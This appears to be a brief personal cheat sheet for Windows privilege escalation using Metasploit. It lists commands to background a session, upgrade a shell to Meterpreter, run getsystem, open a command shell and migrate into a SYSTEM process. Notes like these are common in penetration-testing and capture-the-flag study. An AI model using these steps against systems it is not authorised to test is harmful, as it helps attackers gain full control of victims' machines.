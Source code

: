 # Escalate

## Background the process

```bash
CTRL ^Z  # puts the session in the background
```

## Upgrade shell

```bash
use post/multi/manage/shell_to_meterpreter
set session <SESSION_ID>
exploit
```

## Verify

```bash
getsystem
shell  # open a dos shell
whoami
```

## Migrate

```bash
migrate <NT_AUTHORITY\SYSTEM_ID>
```
